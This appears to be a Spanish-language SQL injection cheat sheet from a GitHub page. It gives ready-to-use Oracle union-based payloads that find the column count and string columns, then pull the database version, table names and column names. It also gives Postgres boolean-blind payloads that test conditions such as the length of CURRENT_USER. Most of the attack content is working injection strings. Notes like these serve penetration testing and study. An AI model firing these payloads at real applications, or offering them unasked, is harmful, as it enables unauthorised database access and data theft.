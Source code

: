 - Union based: Se une una segunda tabla al actual query, donde la segunda tabla sirve de pivote para saltar a más información.
  - ORACLE:

1- Detectar la cantidad de campos que tiene la tabla actual:
  - Opción 1: Incrementar el groupby hasta que se detecte en que numero se provoca un error.
```sql
      GROUP BY 1--
      GROUP BY 2--
```
  - Opción 2: Incrementar la cantidad de null hasta encontrar donde se provoca el error.
```sql
      ' UNION SELECT NULL FROM DUAL--
      ' UNION SELECT NULL,NULL FROM DUAL--
      ' UNION SELECT NULL,NULL,NULL FROM DUAL--
```
2- Conocer el tipo de valor de cada campo, colocando varios tipos hasta encontrar uno que sea string, dado que es el más facil de manipular:
```sql
      ' UNION SELECT 'A',NULL,NULL FROM DUAL--
      ' UNION SELECT NULL,'A',NULL FROM DUAL--
      ' UNION SELECT NULL,NULL,'A' FROM DUAL--
```
3- Comenzar a regresar información relevante como versiones, nombre de BD, incluso tablas:
```sql
    -- VERSION:
      SELECT banner,NULL,NULL FROM v$version
      SELECT version,NULL,NULL FROM v$instance
    -- NOMBRE DE LAS TABLAS:
      ' UNION SELECT owner,table_name,NULL FROM all_tables--
    -- NOMBRE DE LAS COLUMNAS:
      ' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name = 'APP_USERS_AND_ROLES'--
      ' UNION SELECT column_name,table_name FROM all_tab_columns--
```
#### Blind:
- Boleean based:
  - Basado en que provocar errores o ver sí existe diferencia en la respuesta del servidor a ejecutar querys con errores o valores especificos.

  - Postgres mensaje en pantalla:

1- Comportamiento: Detectar comportamientos basados en la respuesta como, por ejemplo sí el servidor regresa un "welcome" cuando el query regresa al menos una fila, o sí viene vacio no muestra el mensaje.
  -> Muestra el mensaje por regresar un campo:
```sql
  ' OR 1=1--
```
  -> No muestra el mensaje por no tener un campo valido:
```sql
  ' OR 2=1--
```

2- Validar en base a función sencilla conociendo el tamaño de variable:
```sql
  a' OR LENGTH(CURRENT_USER) = 5--
```
